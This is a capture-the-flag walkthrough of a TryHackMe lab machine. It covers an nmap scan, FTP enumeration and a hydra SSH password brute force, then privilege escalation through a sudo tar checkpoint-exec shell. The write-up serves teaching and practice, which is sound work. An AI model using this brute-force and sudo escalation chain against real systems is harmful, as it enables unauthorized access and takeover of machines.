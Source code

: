 ```
export IP=10.10.81.11
```

Begin by scanning for open ports:

```
nmap -sC -sV -A -T4 -v -p- -oN scans/nmap.initial $IP
```

| command | result                                      |
| ------- | ------------------------------------------- |
| sudo    | run as root                                 |
| sC      | run default scripts                         |
| sV      | enumerate versions                          |
| A       | aggressive mode                             |
| T4      | run a bit faster                            |
| p-      | scan all ports                              |
| v       | verbose scan (print results while scanning) |
| oN      | output to file with nmap formatting         |
| scans/* | direct output to my subfolder               |

It looks like there are only three open ports on the machine:

|port|service|
|---|---|
|21|FTP|
|22|SSH|
|80|Web server|


Let's go lowest ports first:

On the ftp server we find two files - task.txt and locks.txt. First one gives us answer to the `#3` question - _lin_ and a potential username. Second looks like password list to bruteforce with.

Question `#4` has two answers, because we can try to bruteforce ftp server, but nothing comes out of it, so the answer is SSH:

```
hydra -l lin -P locks.txt ssh://$IP
```

|command|result|
|---|---|
|hydra|runs hydra tool|
|-l|use specified login|
|-P|use password list from file|
|ssh://|target ssh port 22|
|$IP|exported ip address|


Remember th capital `P` when adding password list to hydra, or else You will be using only `locks.txt` string as a password!

After a second, the result of our action comes through:

[DATA] attacking ssh://10.10.81.11:22/ [22][ssh] login: lin password: Red_EDIT_at3

We've got answer to question `#5`, on to the next one:

That was easy! Now log in to the ssh and hunt for flags!

```
ssh lin@$IP
```

We're in, time to look for some standard files. User flag is usually hidden in `user.txt` file. To find it, we use `find` command:

```
find / -name "user.txt" 2>/dev/null
```

|command|result|
|---|---|
|find|search for files|
|/|search everywhere|
|-name|search for specific name|
|2>/dev/null|special operand to throw away errors|


Oops! Should have just used the `ls` command, because the file we're looking for is in the current working directory!

`#6`User flag: THM{CR_EDIT_T3}

Time to escalate things. We can use linpeas or another script for privilege escalation path discovery, but simply using `sudo -l` to list commands run as sudo reveals that our `lin` can use `tar` command as sudo.

Quick look at [GTFOBins](https://gtfobins.github.io/#) and search for `tar` bin shows us that we can use it to escalate things:

```
Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

    tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

so i used the command:

```
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

and when i type `id` it shows we are root.

Root flag is usually hidden in root.txt file, so to find it we use our well known `find` command:

```
find / -name "root.txt" 2>/dev/null
```

and the path to file is /root/root.txt. `Cat` out the file or `less` it, or `nano` it, whatever You do, don't forget to copy it to TryHackMe page, and that's it! We own the machine!

```
Root:
THM{80*EDIT*3r}
```
